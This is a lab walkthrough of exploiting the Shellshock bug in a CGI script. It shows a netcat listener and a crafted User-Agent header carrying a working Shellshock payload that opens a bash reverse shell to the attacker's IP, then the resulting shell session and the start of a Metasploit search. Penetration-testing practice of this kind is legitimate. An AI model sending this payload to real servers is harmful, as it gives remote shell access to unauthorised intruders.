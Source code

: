 Setting up the netcat:
```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

In the request from the burpsuite tab
```
GET /gettime.cgi HTTP/1.1
Host: 192.130.178.3
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.130.178.2/1234 0>&1'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

```

Once the request is sent the connection is established:

```
Ncat: Connection from 192.130.178.3.
Ncat: Connection from 192.130.178.3:33756.
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
daemon@victim-1:/opt/apache/htdocs$ whoami
whoami
daemon
daemon@victim-1:/opt/apache/htdocs$ cat /etc/*issue
cat /etc/*issue
Ubuntu 14.04.6 LTS \n \l

daemon@victim-1:/opt/apache/htdocs$ uname -a
uname -a
Linux victim-1 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
daemon@victim-1:/opt/apache/htdocs$ 
```

Using [[metasploit]]

```
root@attackdefense:~# service postgresql start && msfconsole
Starting PostgreSQL 12 database server: main.
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v5.0.74-dev                          ]
+ -- --=[ 1972 exploits - 1088 auxiliary - 338 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > search shellshock

Matching Modules
================

```